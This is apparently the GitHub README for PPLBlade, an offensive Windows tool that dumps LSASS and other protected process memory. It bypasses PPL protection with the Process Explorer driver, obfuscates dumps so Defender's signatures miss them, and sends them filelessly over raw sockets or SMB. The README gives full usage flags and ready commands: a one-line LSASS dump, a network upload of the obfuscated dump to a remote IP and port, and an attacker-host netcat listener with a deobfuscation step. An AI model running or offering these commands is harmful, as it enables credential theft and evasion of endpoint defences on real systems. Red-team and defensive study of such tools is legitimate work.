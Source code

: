 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe.

It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

Modes:
1) Dump - Dump process memory using PID or Process Name
2) Decrypt - Revert obfuscated(--obfuscate) dump file to its original state
3) Cleanup - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) DoThatLsassThing - Dump lsass.exe

Handle Modes:
1) Direct - Opens PROCESS_FULL_ACCESS handle directly, using OpenProcess() function
2) Procexp - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
`PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade`

